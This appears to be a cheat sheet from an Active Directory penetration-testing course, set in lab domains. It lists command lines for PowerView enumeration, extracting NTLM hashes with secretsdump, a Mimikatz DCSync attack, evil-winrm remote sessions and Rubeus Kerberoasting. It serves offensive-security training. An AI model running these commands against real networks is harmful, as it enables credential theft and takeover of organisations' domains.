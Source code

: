 Used to import PowerView and retrieve the `SID` of a specific user account (`wley`) from a Windows-based host.

`Import-Module .\PowerView.ps1 $sid = Convert-NameToSid wley`

Used to find all Windows domain objects that the user has rights over by mapping the user's `SID` to the `SecurityIdentifier` property from a Windows-based host.

`Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}`


<span style="color:#33FFE3">MORE</span>  
# DCSync

PowerView tool used to view the group membership of a specific user (`adunn`) in a target Windows domain. Performed from a Windows-based host.

`Get-DomainUser -Identity adunn | select samaccountname,objectsid,memberof,useraccountcontrol |fl`

Impacket tool sed to extract NTLM hashes from the NTDS.dit file hosted on a target Domain Controller (`172.16.5.5`) and save the extracted hashes to an file (`inlanefreight_hashes`). Performed from a Linux-based host.

`secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss`

Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host.

`mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator`



# Privileged Access

Used to establish a PowerShell session with a Windows target from a Linux-based host using `WinRM`.

`evil-winrm -i 10.129.201.234 -u forend`


# Trust Relationships - Cross-Forest

PowerView tool used to enumerate accounts for associated `SPNs` from a Windows-based host.

`Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName`

PowerView tool used to enumerate the `mssqlsvc` account from a Windows-based host.

`Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof`

Uses `Rubeus` to perform a Kerberoasting Attack against a target Windows domain (`/domain:FREIGHTLOGISTICS.local`) from a Windows-based host.

`.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap`

PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host.

`Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL`
